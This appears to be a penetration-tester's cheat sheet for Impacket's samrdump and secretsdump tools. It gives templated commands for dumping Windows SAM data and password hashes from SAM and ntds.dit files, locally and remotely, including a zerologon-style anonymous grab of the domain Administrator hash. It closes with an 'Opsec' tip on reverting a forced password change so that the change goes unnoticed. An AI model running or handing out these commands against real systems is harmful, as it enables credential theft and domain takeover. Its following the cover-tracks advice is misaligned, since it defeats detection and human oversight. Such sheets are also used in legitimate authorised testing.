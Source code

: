 # Impacket

% impacket, windows, smb, 445

## samrdump - system account, shares, etc... (dump info from the Security Account Manager (SAM))
#plateform/linux #target/remote #cat/POSTEXPLOIT/CREDS_RECOVER 
```
samrdump.py <domain>/<user>:<password>@<ip>
```

## secretsdump
#plateform/linux #target/remote #cat/POSTEXPLOIT/CREDS_RECOVER 
```
secretsdump.py '<domain>/<user>:<password>'@<ip>
```

## secretsdump local dump - extract hash from sam database
#plateform/linux #target/local #cat/POSTEXPLOIT/CREDS_RECOVER 
```
secretsdump.py  -system <SYSTEM_FILE|SYSTEM> -sam <SAM_FILE|SAM> LOCAL
```

## secretsdump local dump - extract hash from ntds.dit
#plateform/linux #target/local #cat/POSTEXPLOIT/CREDS_RECOVER 
```
secretsdump.py  -ntds <ntds_file.dit> -system <SYSTEM_FILE> -hashes <lmhash:nthash> LOCAL -outputfile <ntlm-extract-file>
```

## secretsdump - anonymous get administrator 
zerologon
#plateform/linux #target/remote #cat/POSTEXPLOIT/CREDS_RECOVER 
```
secretsdump.py <domain>/<dc_bios_name>\$/@<ip> -no-pass -just-dc-user "Administrator"
```

## secretsdump - remote extract
#plateform/linux #target/remote #cat/POSTEXPLOIT/CREDS_RECOVER 
```
secretsdump.py -just-dc-ntlm -outputfile <ntlm-extract-file> <domain>/<user>:<password>@<ip>
```

## secretsdump - remote extract + users infos
#plateform/linux #target/remote #cat/POSTEXPLOIT/CREDS_RECOVER 
```
# Get pwd-last-set, user status, passwd history
secretsdump.py -just-dc -pwd-last-set -user-status -history -outputfile <ntlm-extract-file> <domain>/<user>:<password>@<ip>

# Opsec :
# If you used ForcedPassword on a user to set a users's password
# You can revert the user's hash to its previous value to make it appear unchanged
```


